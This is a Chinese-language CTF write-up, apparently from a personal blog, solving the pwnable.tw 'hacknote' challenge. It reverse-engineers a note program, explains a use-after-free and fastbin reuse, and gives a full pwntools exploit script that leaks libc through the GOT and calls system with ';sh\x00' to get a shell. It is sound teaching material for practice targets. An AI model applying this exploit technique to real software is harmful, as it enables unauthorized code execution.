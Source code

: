 ```yaml
---
title: pwnable.tw - hacknote の Write-Up
date: 2020-07-09 14:31:56
categories:
- WriteUPs
- pwnable.tw
tags:
- PWN
- Heap
---
```

## Introduction

&emsp;&emsp;[pwnable.tw](https://pwnable.tw/)是一个pwn题刷题网站，里面收集了很多不错的pwn题。hacknote是一道比较简单的堆溢出的题目，刚好适合开始接触堆溢出不久的rookie，能够帮助理解和掌握有关堆溢出利用相关知识。

<!-- more -->

## Step 1

&emsp;&emsp;首先运行程序：

![](/img/Hacknote/Hacknote1.png)

&emsp;&emsp;看起来是一个日记本程序，可以添加、删除、打印日记，标准的堆溢出题目。

&emsp;&emsp;checksec：

![](/img/Hacknote/Hacknote2.png)

&emsp;&emsp;32位程序，栈上的保护还是比较齐全的。

## Step 2

&emsp;&emsp;将程序丢到hopper中，首先看一下主函数：

![](/img/Hacknote/Hacknote3.png)

&emsp;&emsp;函数逻辑还是比较简单的，首先是菜单的显示：

![](/img/Hacknote/Hacknote4.png)

&emsp;&emsp;然后是对各个功能的处理函数，首先是功能1添加note：

![](/img/Hacknote/Hacknote5.png)

&emsp;&emsp;Add函数首先会判断目前note的数量，如果超过5，那么会显示’Full’然后退出。如果没有超过5会从0开始遍历，直到找到一个空的项，申请一个8字节的堆块。如果分配错误，返回’Alloca Error’并退出，分配成功则将储存一个指针指向0x804862b，另一个指针指向note的内容，而0x804862b位置是一个输出note内容的函数sub_804862b：

![](/img/Hacknote/Hacknote6.png)

&emsp;&emsp;之后根据读入的size大小申请一个堆块，再读入字符串为内容，最后将note的计数加1。

&emsp;&emsp;然后是对功能2删除note的处理函数：

![](/img/Hacknote/Hacknote7.png)

&emsp;&emsp;Delete函数相对就比较简单了，判断一下要读入的要删除note的编号是否符合范围要求，再判断一下编号对应的note有没有，如果没有就返回‘Out of bound!’，如果有就free对应的note。

&emsp;&emsp;接着是功能3打印note：

![](/img/Hacknote/Hacknote8.png)

&emsp;&emsp;Print函数和Delete函数很像，只是最后是调用Add函数中的sub_804862b函数输出指定的编号对应的note的内容。

&emsp;&emsp;最后是退出程序：

![](/img/Hacknote/Hacknote9.png)

&emsp;&emsp;程序的逻辑比较简单，通过逆向的伪代码基本已经了解透彻了。

## Step 3

&emsp;&emsp;程序逻辑流程明白之后，就是要在其中找漏洞。这一题的漏洞点在于Delete函数释放指针之后没有将其值清空，这样会出现Use After Free和Double Free漏洞。关于这两个漏洞的原理和利用网上资料比较多，也可以参考我之前的文章[堆溢出漏洞小结](https://coldwave96.github.io/2020/07/07/HeapOverflow/)。

&emsp;&emsp;首先要明确利用漏洞需要获得什么结果：

* 需要知道程序运行时system函数实际地址；

* 获取诸如’/bin/sh’的字符串的位置；

* 控制程序的运行流。

&emsp;&emsp;下面从漏洞利用的角度再来细细品一下这个程序。

&emsp;&emsp;每个note生成时程序会申请8字节的堆块来存放该note的指向sub_804862b函数的指针和指向内容的指针。然后程序会根据输入的size大小来申请合适大小的堆块用来存储note的内容。

&emsp;&emsp;显然note的结构是一个fastbin chunk，大小是16字节，至于为什么是16字节可能需要先去了解下堆的机制，可以参考下[关于堆的bin结构的理解](https://coldwave96.github.io/2020/07/02/Heap-bin/)和[堆溢出入门基础知识](https://coldwave96.github.io/2020/06/30/Heap/)。

&emsp;&emsp;我们的目的是控制程序的运行流去执行system等函数，那么我们可以考虑修改某个note的指向sub_804862b函数的指针，将其修改为我们想要执行的函数地址。这样当执行print函数的功能时程序就回去执行我们想要执行的函数。

&emsp;&emsp;既然我们需要修改某个note的指针，而程序中只有唯一的方法可以赋值，所以我们必须在Add note中利用写入note内容的功能来进行覆盖。

&emsp;&emsp;具体思路如下：

* 申请note0，size为20（大小与note大小所在的bin不一样就可以）；

* 申请note1，size为20；

* Delete note0；

* Delete note1；

* 申请note2， size为8（此时根据fastbin的LIFO策略，其实note2分配的是note1，而note2的size则是对应的note0）；

* 这时我们输入的note2的内容其实就覆盖了note0的指向sub_804862b函数的指针和指向note0的内容的指针；

* 所以当Print note0的时候，程序就会去调用覆盖的函数。

&emsp;&emsp;这样我们就解决了控制程序运行流的问题。

&emsp;&emsp;接下来就是获取程序运行时system函数在内存中的实际地址。可以看到题目给了libc文件，那么可以像栈溢出那样泄露libc基址加上offset获得system函数的地址。

&emsp;&emsp;具体思路如下：

* 将note0的指向内容的指针覆盖为puts函数在got表的地址；

* Print note0就可以打印出read的实际地址；

* 利用system_addr - system_libc = puts_addr - puts_libc计算出system_addr；

&emsp;&emsp;最后是system函数的参数，由于一共只有8字节，除去system函数的地址只有4字节，所以选择写入字符串’sh’或者’$0’。

&emsp;&emsp;但是这里还有个小问题，Print函数是将note0的8字节结构的地址当作参数传递给system函数的，所以前半部分的system函数地址也会被当作参数导致system函数执行时报错。

&emsp;&emsp;所以需要进行system参数截断，可以使用如下的方式：

* ‘;sh\x00’ or ‘;$0\x00'

* ‘&&sh’ or ‘&&$0'

* ‘||sh’ or ‘||$0'

&emsp;&emsp;到这里这题的解题思路就梳理完毕了，之后就是EXP的编写了。

## Step 4

&emsp;&emsp;直接给出EXP脚本：

```Python
from pwn import *

sh = remote('chall.pwnable.tw', 10102)
# sh = process('./hacknote')
elf = ELF('./hacknote')

libc = ELF('./libc_32.so.6')

def add_note(size, content):
    sh.recvuntil('Your choice :')
    sh.sendline('1')
    sh.recvuntil('Note size :')
    sh.sendline(str(size))
    sh.recvuntil('Content :')
    sh.sendline(str(content))

def delete_note(index):
    sh.recvuntil('Your choice :')
    sh.sendline('2')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

def print_note(index):
    sh.recvuntil('Your choice :')
    sh.sendline('3')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

print_puts = 0x0804862b
puts_got = elf.got['puts']

add_note(20, 'aaaa')
add_note(20, 'aaaa')
delete_note(0)
delete_note(1)

add_note(0x8, p32(print_puts) + p32(puts_got))
print_note(0)
puts_addr = u32(sh.recv(4))

puts_libc = libc.symbols['puts']
sys_libc = libc.symbols['system']
sys_addr = puts_addr - puts_libc + sys_libc

delete_note(2)
add_note(0x8, p32(sys_addr) + ';sh\x00')
print_note(0)

sh.interactive()
sh.close()
```

&emsp;&emsp;脚本运行结果：

![](/img/Hacknote/Hacknote10.png)